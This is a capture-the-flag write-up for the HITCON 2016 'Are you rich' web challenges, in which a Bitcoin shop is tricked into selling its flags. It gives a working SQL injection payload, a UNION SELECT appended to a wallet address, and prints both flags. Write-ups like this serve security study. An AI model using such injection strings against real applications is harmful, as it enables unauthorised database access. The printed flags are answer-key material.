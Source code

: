 #hitcon 2016 : Are you rich 1 and Are you rich 2
Solved by illustris
##Challenge

###Are you rich?
```
249 Teams solved.
Description
Are you rich? Buy the flag!
http://52.197.140.254/are_you_rich/
ps. You should NOT pay anything for this challenge
Some error messages which is non-related to challenge have been removed
Hint
None
```

###Are you rich 2 ?
```
117 Teams solved.
Description
Are you rich? Buy the flag!
http://52.197.140.254/are_you_rich/
ps. You should NOT pay anything for this challenge
Some error messages which is non-related to challenge have been removed
Hint
None
```

##Solution
I looked up the richest bitcoin wallet. As of when I wrote this, it was
>https://bitinfocharts.com/bitcoin/address/3Nxwenay9Z8Lc9JBiywExpnEFiLp6Afp8v

Both flags can now be obtained by SQL injection
>3Nxwenay9Z8Lc9JBiywExpnEFiLp6Afp8v' UNION SELECT '3Nxwenay9Z8Lc9JBiywExpnEFiLp6Afp8v';#

Flag 1:
>hitcon{4r3_y0u_r1ch?ju57_buy_7h3_fl4g!!}

![bump](Bitcoin Shop.png)

Flag 2:
>hitcon{u51n6_07h3r_6uy5_b17c0n_70_byp455_ch3ck1n6_15_fun!!}

![bump](Bitcoin Shop2.png)